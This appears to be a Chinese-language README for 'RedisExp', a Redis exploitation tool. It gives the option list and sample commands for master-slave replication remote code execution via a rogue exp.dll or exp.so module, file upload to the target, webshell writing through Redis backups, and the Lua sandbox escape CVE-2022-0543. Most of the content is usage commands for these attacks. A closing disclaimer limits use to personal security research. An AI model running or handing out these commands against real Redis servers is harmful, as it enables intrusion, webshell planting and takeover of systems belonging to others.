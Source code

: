 ## Redis 漏洞利用工具

帮助：`-h`

```
NAME:
   Redis Exp - Redis 利用工具

USAGE:
   Redis Exp [global options] command [command options] [arguments...]

COMMANDS:
   help, h  Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --rhost value, -r value      目标IP
   --rport value, --rp value    目标端口 (default: "6379")
   --pwd value                  Redis密码
   --lhost value, -l value      本地IP
   --lport value, --lp value    本地端口 (default: "21000")
   --dll value, --so value      设置 exp.dll | exp.so (default: "exp.dll")
   --cmd value, -c value        命令执行
   --console                    使用交互式 shell (default: false)
   --exec                       主从复制命令执行 (default: false)
   --upload                     主从复制文件上传 (default: false)
   --rpath value, --path value  保存在目标的目录 (default: ".")
   --rfile value, --rf value    保存在目标的文件名
   --lfile value, --lf value    需要上传的文件名
   --lua                        Lua沙盒绕过命令执行 CVE-2022-0543 (default: false)
   --shell                      备份写 Webshell (default: false)
   --help, -h                   show help (default: false)
```

#### 主从复制漏洞

命令执行：

- 默认 windows 加载的是 `exp.dll`
- 默认是非交互式 shell

````
RedisExp.exe -rhost 192.168.211.128 -lhost 192.168.211.1 -exec -c whoami
RedisExp.exe -rhost 192.168.211.128 -lhost 192.168.211.1 -exec -console

RedisExp.exe -rhost 192.168.211.130 -lhost 192.168.211.1 -so exp.so -exec -c whoami
RedisExp.exe -rhost 192.168.211.130 -lhost 192.168.211.1 -so exp.so -exec -console
````

![1](images/1.png)

文件上传：

```
RedisExp.exe -rhost 192.168.211.128 -lhost 192.168.211.1 -upload -rfile 1.txt -lfile 2.txt
```

![2](images/2.png)



#### 备份写 Webshell

```
RedisExp.exe -rhost 192.168.211.128 -lhost 192.168.211.1 -shell
```

![3](images/3.png)



#### Lua沙盒绕过命令执行 CVE-2022-0543

```
RedisExp.exe -rhost 192.168.211.130 -lhost 192.168.211.1 -lua -console
```

![4](images/4.png)



### 参考

本工具基于大量优秀文章和工具才得以编写完成，非常感谢这些无私的分享者！

- https://github.com/zyylhn/redis_rce
- https://github.com/0671/RabR
- https://github.com/r35tart/RedisWriteFile

 

### 声明

本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。
